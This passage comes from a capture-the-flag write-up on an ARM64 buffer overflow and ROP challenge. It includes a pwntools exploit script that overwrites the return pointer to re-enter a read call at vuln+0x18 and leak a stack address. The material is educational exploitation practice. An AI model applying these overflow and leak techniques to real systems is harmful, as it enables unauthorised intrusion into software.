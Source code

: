 ![GDB Screenshot](/assets/images/posts/baby_arm_rop/gdb_5.png)

The debugmen changed the ret address here, so that instead of ropping back to vuln, they rop to the read call at `vuln + 0x18`, which works because we bypass the `mov x2 0x1f` and `x2` happens to already have a large value in it at the time of the RP overwrite. If this wasn't the case, we could look for a gadget for that, but we can achieve our goals simply, so let's:

```python
# Set up the buffer overflow to call vuln again to leak some more
message = b"A"*0x20 #
message += b"S"*8   # Saved Frame 
message += p64(elf.symbols['vuln']+0x18)   # RP overwrite - we're BOFing here to return to printf and leak more
p.sendlineafter(b"message now: ",message)
p.clean()                                                                                                                           
name = b"C"*0x68
p.sendline(name)
p.readuntil(name)
STACK_LEAK = p.readuntil("\n; send", drop=True)     # Raw bytes of addr
log.success(f"Leaked $sp : {STACK_LEAK}")      
STACK_LEAK = STACK_LEAK.ljust(8, b"\x00")           # Pack out to full 64 bits
log.success(f"Leaked $sp : {STACK_LEAK}")
STACK_LEAK = u64(STACK_LEAK)                        # Unpack 64 bit addre
log.success(f"Leaked $sp : {hex(STACK_LEAK)}")
STACK_LEAK = STACK_LEAK + 0x168                     # subtract the offset found in GDB to get $sp
log.success(f"Leaked $sp : {hex(STACK_LEAK)}")                                                                                      

p.interactive()
```

But unfortunately, our read call being so large leads to a new BOF:
